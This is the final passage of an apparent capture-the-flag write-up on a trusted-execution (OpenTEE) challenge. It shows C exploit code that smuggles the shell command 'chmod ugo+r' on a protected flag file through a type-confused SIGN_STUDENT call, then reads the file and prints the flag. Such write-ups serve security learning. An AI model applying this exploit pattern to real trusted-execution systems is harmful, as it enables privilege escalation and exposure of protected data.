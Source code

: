 ```c
  );
  memset(in_mem.buffer, 0, sizeof(struct student));
  strcpy(out_mem.buffer, "chmod ugo+r /opt/OpenTee/flag.txt");

  operation.params[0].memref.parent = &in_mem;
  operation.params[1].memref.parent = &out_mem;
  
  printf("Invoking command SIGN_STUDENT (changing flag permissions): \n");
  tee_rv = TEEC_InvokeCommand(&session, SIGN_STUDENT, &operation, NULL);
  if (tee_rv != TEEC_SUCCESS && tee_rv != TEEC_ERROR_SECURITY) {
    printf("TEEC_InvokeCommand failed: 0x%x\n", tee_rv);
    exit(tee_rv);
  }
  printf("res: 0x%x\n", tee_rv);

  system("cat /opt/OpenTee/flag.txt");
  return 0;
}
```

![flag](/post-resources/TrustMEE/flag.png)

And we have the flag! Thank you for reading 🏴

`EPFL{ju5t_4_h4PPY_L1ttL3_Typ3_c0nfu510n_8u9}`
